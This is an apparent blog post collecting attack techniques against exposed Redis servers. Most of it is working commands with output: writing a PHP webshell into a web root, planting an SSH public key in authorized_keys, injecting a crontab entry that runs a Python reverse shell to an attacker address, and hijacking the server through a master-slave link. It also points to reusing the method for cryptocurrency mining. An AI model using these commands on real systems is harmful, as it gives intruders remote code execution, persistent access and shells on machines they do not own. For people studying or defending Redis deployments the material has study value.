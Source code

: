 ```yaml
---
layout:     post
title:      "Redis Hacking Tips"
subtitle:   "collection"
date:       2017-02-09
author:     "Urahara"
header-img: "img/86a1b907d54bf7010394bf316e183e67.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - 数据库安全	

---
```


### Get Webshell

​	You must know the physical path of the Web site 

```Bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​	If the webshell access exception, you can empty the database after backup and try again, remember to restore the database

### Get SSH--Crackit

1. Generate a ssh public-private key pair on your pc: **ssh-keygen -t rsa**

2. Write the public key to a file : **(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt**

3. Import the file into redis : **cat foo.txt \| redis-cli -h 10.85.0.52 -x set crackit**

4. Save the public key to the authorized_keys file on redis server : 

   ```Bash
   root@Urahara:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /home/test/.ssh/
   OK
   10.85.0.52:6379> config set dbfilename "authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can ssh to the redis server with private key : **ssh -i id_rsa test@10.85.0.52**


### Get Reverse Shell—Crontab

```Bash
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

> The above command for Ubuntu, Centos need to be adjusted to：
>
> redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Master-Slave Moudle

​	The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```








